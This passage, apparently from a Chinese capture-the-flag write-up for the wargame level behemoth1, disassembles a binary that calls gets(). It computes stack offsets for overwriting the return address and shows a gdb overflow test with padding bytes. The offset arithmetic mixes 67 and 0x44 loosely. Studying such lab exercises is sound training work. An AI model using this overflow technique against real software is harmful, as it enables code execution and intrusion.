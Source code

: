 这次不行。但是查看反汇编可以看到执行逻辑为：

```bash
$ objdump behemoth1 -d

0804844b <main>:
 804844b:	55                   	push   %ebp
 804844c:	89 e5                	mov    %esp,%ebp
 804844e:	83 ec 44             	sub    $0x44,%esp   # 栈上分配空间为0x44
 8048451:	68 00 85 04 08       	push   $0x8048500
 8048456:	e8 a5 fe ff ff       	call   8048300 <printf@plt>
 804845b:	83 c4 04             	add    $0x4,%esp
 804845e:	8d 45 bd             	lea    -0x43(%ebp),%eax # ebp-0x43 是字符串的输入的位置
 8048461:	50                   	push   %eax
 8048462:	e8 a9 fe ff ff       	call   8048310 <gets@plt>
 8048467:	83 c4 04             	add    $0x4,%esp
 804846a:	68 0c 85 04 08       	push   $0x804850c
 804846f:	e8 ac fe ff ff       	call   8048320 <puts@plt>
 8048474:	83 c4 04             	add    $0x4,%esp
 8048477:	b8 00 00 00 00       	mov    $0x0,%eax
 804847c:	c9                   	leave  
 804847d:	c3                   	ret    
 804847e:	66 90                	xchg   %ax,%ax
```

可以看到程序没有比较字符串的操作，就调了三个函数(`printf`,`gets`,`put`),但可以利用shellcode得到shell。

反汇编代码的分析见上面注释。

所以可以用67(0x44)+4=71来覆盖ebp,67(0x44)+4+4=75来覆盖返回地址。

执行到
```
(gdb) break main 
(gdb) run < <(python3 -c 'print(71 * "A" + "BBBB")')
```
执行到gets函数返回后：
```
   ┌──────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
   │0x804844b <main>        push   %ebp                                                                               │
   │0x804844c <main+1>      mov    %esp,%ebp                                                                          │
   │0x804844e <main+3>      sub    $0x44,%esp                                                                         │
B+ │0x8048451 <main+6>      push   $0x8048500                                                                         │
>  │0x8048456 <main+11>     call   0x8048300 <printf@plt>                                                             │
   │0x804845b <main+16>     add    $0x4,%esp                                                                          │
   │0x804845e <main+19>     lea    -0x43(%ebp),%eax                                                                   │
   │0x8048461 <main+22>     push   %eax                                                                               │
   │0x8048462 <main+23>     call   0x8048310 <gets@plt>                                                               │
  >│0x8048467 <main+28>     add    $0x4,%esp                                                                          │
   │0x804846a <main+31>     push   $0x804850c                                                                         │
   │0x804846f <main+36>     call   0x8048320 <puts@plt>                                                               │
   │0x8048474 <main+41>     add    $0x4,%esp                                                                          │
```
